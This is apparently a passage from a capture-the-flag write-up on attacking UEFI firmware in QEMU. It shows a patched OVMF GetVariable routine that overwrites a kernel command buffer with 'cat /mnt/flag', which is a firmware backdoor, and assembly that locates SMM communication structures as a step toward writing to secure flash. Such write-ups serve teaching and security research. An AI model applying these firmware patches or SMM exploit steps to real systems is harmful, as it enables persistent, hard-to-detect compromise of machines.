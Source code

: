 In the end, I just used an old version of UEFITool that actually does have this
feature :( Luckily it has a command-line only tool, UEFIReplace, that I ended
up installing in the VM.

The patched firmware is fresh built from OVMF, with this patch:
```diff
--- a/MdeModulePkg/Universal/Variable/RuntimeDxe/VariableSmmRuntimeDxe.c
+++ b/MdeModulePkg/Universal/Variable/RuntimeDxe/VariableSmmRuntimeDxe.c
@@ -783,6 +783,12 @@ RuntimeServiceGetVariable (
   )
 {
   EFI_STATUS  Status;
+  STATIC CONST CHAR8 TargetCommand[] = "cat /mnt/flag";
+  STATIC VOID *sysctl_run_command = (VOID *)0xffffffff824a9360;
+  UINTN ReturnAddress = (UINTN)RETURN_ADDRESS (0);
+
+  if ((INTN)ReturnAddress < 0)
+    CopyMem (sysctl_run_command, TargetCommand, sizeof (TargetCommand));

   if ((VariableName == NULL) || (VendorGuid == NULL) || (DataSize == NULL)) {
     return EFI_INVALID_PARAMETER;
```
This is essentially what the previous lua payload did, but `cat /mnt/flag`
instead of `bash`, since the command must dump the flag non-interactively
(serial input gets disabled).

## Writing to the flash

In the QEMU arguments, there is
`-global driver=cfi.pflash01,property=secure,value=on`. This flag means the
flash can only be written from SMM. This is like how some real-life SPI flash
works, because one still needs write to flash to allow the firmware to update
itself, change UEFI variables, secure boot state etc., and they are all
access-controlled by SMM. I need an arbitrary code execution in SMM, and that's
where SMM Is Asleep's exploit comes in.

Since ASLR is enabled, I first wanted to get to get the relevant addresses
pre-runtime from the Lua payload, so I could talk to SMM.

```asm
PiSmmIpl_off_mSmmCommunication = 0x7420

BS_off_AllocatePages = 40
BS_off_LocateProtocol = 320

AllocateAnyPages = 0
EfiRuntimeServicesData = 6

  # ===== Find location of PiSmmIpl.efi =====
  lea s_PiSmmIpl(%rip),%rsi
  call print

  # gBS->LocateProtocol(gEfiSmmCommunicationProtocolGuid, NULL, &addrbuf)
  lea gEfiSmmCommunicationProtocolGuid(%rip),%rcx
  xor %edx,%edx
  lea addrbuf(%rip),%r8
  call *BS_off_LocateProtocol(%r13)

  mov addrbuf(%rip),%rsi
  lea -(PiSmmIpl_off_mSmmCommunication)(%rsi),%rsi
  call print_hex

  mov $'\n',%al
  outb %al,(%dx)

```
